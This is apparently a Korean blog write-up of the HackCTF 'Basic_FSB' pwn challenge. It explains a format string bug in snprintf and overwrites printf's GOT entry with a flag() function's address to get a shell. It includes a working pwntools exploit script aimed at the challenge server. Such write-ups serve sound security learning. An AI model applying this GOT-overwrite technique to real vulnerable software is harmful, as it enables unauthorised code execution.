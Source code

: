 ```yaml
---
title: "[ HackCTF ] Basic_FSB"
date: 2023-03-07T12:09:21.643Z
categories: ['Wargame', 'HackCTF']
tags: ["HackCTF","pwn"]
---
```



### **문제 분석**
---

![](/assets/images/2023-03-07-Basic_FSB/2023-08-10-13-10-01.png)

vuln()함수를 보면 snprintf에서 FSB 취약점을 찾을 수 있다.

<br>

![](/assets/images/2023-03-07-Basic_FSB/2023-08-10-13-10-12.png)

또한 shell을 얻을 수 있는 flag()함수가 있다.

<br>
<br>

### **문제 풀이**
---

FSB를 이용하여 printf의 got를 flag()함수의 주소로 덮어주면 shell을 얻을 수 있다.
<br>

![](/assets/images/2023-03-07-Basic_FSB/2023-08-10-13-10-34.png)

간단하게 FSB를 발생시켜보면 2번째 %x에서 첫 번째 인자 AAAA를 참조하고 있다.

따라서 다음과 같이 FSB를 발생시킬 수 있다.

```printf_got(4byte) + %(134514100-4byte=134514096)x+%n```

<br>

exploit 코드는 다음과 같다.

```python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3002)
e = ELF('./basic_fsb')

print_got = e.got['printf']

payload = ''
payload += p32(print_got)
payload += "%134514096x%n"

p.recvuntil('input : ')
p.send(payload)
p.interactive()
```